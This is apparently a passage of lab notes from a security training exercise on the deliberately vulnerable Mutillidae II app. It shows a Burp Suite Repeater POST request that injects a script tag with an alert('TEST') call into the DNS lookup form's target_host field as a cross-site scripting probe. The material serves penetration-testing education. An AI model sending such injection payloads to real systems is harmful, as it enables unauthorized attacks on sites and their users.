![Lab - Mutillidae II 4](./assets/encoding_filtering_and_evasion_basics_lab_multillidae_ii_4.png)

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php?page=dns-lookup.php HTTP/1.1
Host: bjrjf35ikizrz2cggpk56tiff.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=cr1pou49771vutjg5ev7btefk0; showhints=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://bjrjf35ikizrz2cggpk56tiff.eu-central-6.attackdefensecloudlabs.com/index.php?popUpNotificationCode=SL1&page=dns-lookup.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://bjrjf35ikizrz2cggpk56tiff.eu-central-6.attackdefensecloudlabs.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

target_host=<script>alert("TEST");</script>&dns-lookup-php-submit-button=Lookup+DNS 📌
```
